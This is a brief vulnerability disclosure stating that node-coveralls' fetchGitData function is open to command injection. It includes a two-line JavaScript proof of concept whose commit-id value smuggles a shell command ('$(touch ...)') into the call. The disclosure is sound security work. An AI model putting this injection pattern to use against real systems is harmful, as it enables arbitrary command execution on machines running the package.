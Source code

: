 ## description
node-coveralls gets the great coverage reporting of coveralls.io and adds a cool coverage button (like the one above) to your README.

The function fetchGitData in node-coveralls is vulnerable to command injection.

## PoC
Create a .js file with the content below and run it, then the file pzhou@shu should be created.

var fetchGitData = require('coveralls/lib/fetchGitData');
fetchGitData({head:{id:'1}$(touch pzhou@shu)'}},() => {})

